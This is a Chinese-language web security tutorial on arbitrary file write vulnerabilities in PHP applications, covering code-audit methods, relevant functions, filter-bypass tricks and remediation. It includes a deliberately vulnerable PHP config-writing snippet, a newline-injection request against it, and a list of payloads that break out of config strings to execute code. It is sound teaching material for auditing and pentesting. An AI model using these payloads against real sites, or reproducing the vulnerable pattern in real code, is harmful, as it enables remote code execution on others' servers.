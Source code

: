 ```yaml
---
layout: post
title:  "一篇文章深入理解任意文件写入漏洞"
categories: Web安全
tags: 任意文件写入 
author: 0e0w
---
```


* content
{:toc}
这是一篇关于任意文件写入漏洞的文章。本文会不定期更新。
> 任意文件写入不同与文件上传漏洞，有些人也称之为是命令执行漏洞。漏洞出现的原因经常是在后台的一些配置文件修改编辑等处，程序开发过程中将这些配置信息未做好过滤保存到了文件中，用户可以在文件中写入任意的内容，导致漏洞产生。

## 0x01 概述

任意文件写入可以直接Getshell，危害很大。但在渗透测试中，往往出现在Cms中。不进行代码审计的情况下，较难直接获取权限，因为无法判断写入到了那个文件中，但也有例外的情况。关于任意文件写入漏洞，有三个前提条件：

- 文件写入函数的参数用户可控；
- 可控参数没有做好过滤；
- 写入的文件类型为可执行文件。

## 0x02 代码审计

任意文件写入漏洞代码审计思路：寻找文件写入或文件保存等相关函数，查看函数中变量用户是否可控，是否进行了过滤处理，是否保存到了可执行文件中。一般采用代码审计工具可以很好的找出此类漏洞，对于误报情况较大的情况，只需要人工去逐个分析排查即可。

### PHP文件写入

**相关函数**

- fopen() 创建文件，打开文件或URL。

  ```php
  $file = fopen("admin.php", "w")
  ```

- fwrite() 写入文件

  ```php
  fwrite($file, $str)
  ```

- file_put_contents() 把字符串写入文件

  ```php
  file_put_contents("admin.php","<?PHP phpinfo();?>");
  ```

- fputcsv() 将行数据格式化为CSV格式并写入文件

- fputs() 将字符串写入文件

- socket_write() 写一个 Socket

- session_write_close() 向Session中写入数据并终止Session

- ftp_nb_get() 从FTP服务器上获取文件并写入本地文件

- imagefttext() 使用FreeType2字体将文本写入图像

- imagettftext() 用TrueType字体向图像写入文本

### Java文件写入

**相关函数**

- FileWriter()
- BufferedWriter()

### 基础绕过方法

没有任何过滤直接将字符串写入文件的情况还是比较少的。有一部分漏洞是已经对参数做了过滤，但是没有完美过滤，导致使用某些技巧可言绕过。

- 利用换行符来绕过正则匹配。

  ```php
  <?php
  $api = addslashes($_GET['api']);
  $file = file_get_contents('./option.php');
  $file = preg_replace("/\\\$API = '.*';/", "\$API = '{$api}';", $file);
  file_put_contents('./option.php', $file);
  ```

  - update.php?api=aaaaa%27;%0aphpinfo();//
  - update.php?api=aaaaa

- 利用 preg_replace函数的问题。

- 利用 preg_replace() 第二个参数，自动转义反斜线。

- 利用正则\n|$n，将第n个子组替换到文本中

  ```php
  $a = 'aa1234aa';
  $b = preg_replace('/aa(\d+)aa/', 'bb\1bb', $a);
  echo $b;
  ```

- 多次提交进行逃逸。

## 0x03 渗透测试

在渗透测试中，可以在配置文件修改等地方插入类似的payload，查看当前页面的返回情况，或者是通过以往的经验来判断文件写入的位置。很多情况下，配置文件也并非是写入到了可执行文件中，而是写入到了数据库中。在渗透测试中，任意文件写入有俩种常见的情况：

- 配置文件处任意字符串写入

- 程序安装时install任意字符串写入

**常见payload**

```php
<?php phpinfo();?>
phpinfo();
";phpinfo();//
";@phpinfo();//
';phpinfo();//
‘;phpinfo();//
';@phpinfo();//
\',@phpinfo(),//',
\';phpinfo();//
aaa';phpinfo();%0a//
';%0aphpinfo();//
;phpinfo();
\%27;%0aphpinfo();%23
\%27;%0aphpinfo();//
\%27);%0aphpinfo();%23
\%27);phpinfo();%23
';phpinfo();//
");phpinfo();//
```

## 0x04 典型案例

出现过任意文件写入漏洞的程序。

- phpcms 
- SeaCms
- Discuz 
- 74cms
- dedecms
- 致远OA v8任意文件写入

## 0x05 漏洞修复

- 尽量避免在可执行文件中保存字符串内容。
- 对写入的字符串进行完美的过滤。

## 0x06 参考链接

- https://www.leavesongs.com/PENETRATION/thinking-about-config-file-arbitrary-write.html
- http://suo.im/5VUqhn
- https://blog.csdn.net/Ca3tie1/article/details/104830356